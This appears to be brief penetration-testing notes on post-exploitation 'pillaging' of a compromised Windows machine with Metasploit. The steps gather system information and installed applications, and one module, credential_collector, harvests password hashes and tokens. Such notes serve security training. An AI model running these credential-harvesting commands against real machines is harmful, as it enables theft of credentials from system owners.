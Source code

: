 
# Pillaging & Data Harvesting

gathering relevant information from the exploited machine.

1- Get system information 

> sysinfo 

2- Built-in Windows command to display detailed information about the computer.

> shell

> systeminfo

3-Get all the applications installed

> run post/windows/gather/enum_applications

4-Collect all password hashes and tokens form the exploited machine

> run post/windows/gather/credentials/credential_collector


